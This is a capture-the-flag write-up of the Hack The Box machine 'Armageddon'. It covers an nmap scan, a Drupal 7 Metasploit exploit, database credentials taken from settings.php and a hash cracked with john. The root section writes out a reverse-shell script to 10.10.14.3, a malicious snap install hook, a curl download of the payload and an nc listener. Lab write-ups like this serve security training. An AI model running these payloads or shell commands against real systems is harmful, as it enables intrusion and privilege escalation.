 # nmap
<pre>
# Nmap 7.91 scan initiated Sun Jun  6 09:29:41 2021 as: nmap -sC -sV -A -p- -vv --open -oA nmap/10.10.10.233-Armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-06-06 09:29:41 SAST for 95s
Not shown: 65115 closed ports, 418 filtered ports
Reason: 65115 conn-refused and 418 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
<span style="background-color:yellow; color:000;font-weight:bold"> 22/tcp open  ssh</span>     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
<span style="background-color:yellow; color:000;font-weight:bold"> 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)</span>
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
|_<span style="background-color:yellow; color:000;font-weight:bold">http-generator: <span style="background-color:red; color:fff;font-weight:bold">Drupal 7</span> (http://drupal.org)</span>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 09:31:16 2021 -- 1 IP address (1 host up) scanned in 95.15 seconds
</pre>
- drupal site version 7, possible vulnerable version as drupal is teasing version 9 at this time

# web page

![](Armageddon-HTB-01.png)



![](Armageddon-HTB-02.png)

- site is a built on drupal
- theme consistent with drupal theme
- file and folder structure from robots.txt consistent with drupal site
- drupal confirmed on [[HTB-Live/10.10.10.233-armageddon/10 - nmap]] nmap

# user
![](Armageddon-HTB-03.png)

- searchsploit suggests a specific Metasploit exploit

![](Armageddon-HTB-04.gif)

- Metasploit establishes a session

![](Armageddon-HTB-05.png)

- Stabilizing shell <span style="background-color:red;color:fff;font-weight:bold;">fails</span>

![](Armageddon-HTB-06.gif)
- using the 'unstable' shell to navigate to sites/default/settings.php, the usual place for database credentials on a drupal site.


````php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
````
- enumeration drupal site database connection settings reveals database credentials

![](Armageddon-HTB-07.gif)

- credentials were use to retrieve a hash
````
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
````

![](Armageddon-HTB-08.gif)


````bash
john thehash --show
?:booboo

1 password hash cracked, 0 left
````

- the password matching the hash was in the wordilst *rockyou.txt* (````booboo````)

![](Armageddon-HTB-09.png)


- The only account on the machine that has access to an interactive shell is ``brucetherealadmin``

![](Armageddon-HTB-10.png)

- credendtials ````brucetherealadmin:booboo```` are able to login

# root

![](Armageddon-HTB-11.png)

- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````

![](Armageddon-HTB-13.gif)

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.

![](Armageddon-HTB-13.png)

- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


![](Armageddon-HTB-14.gif)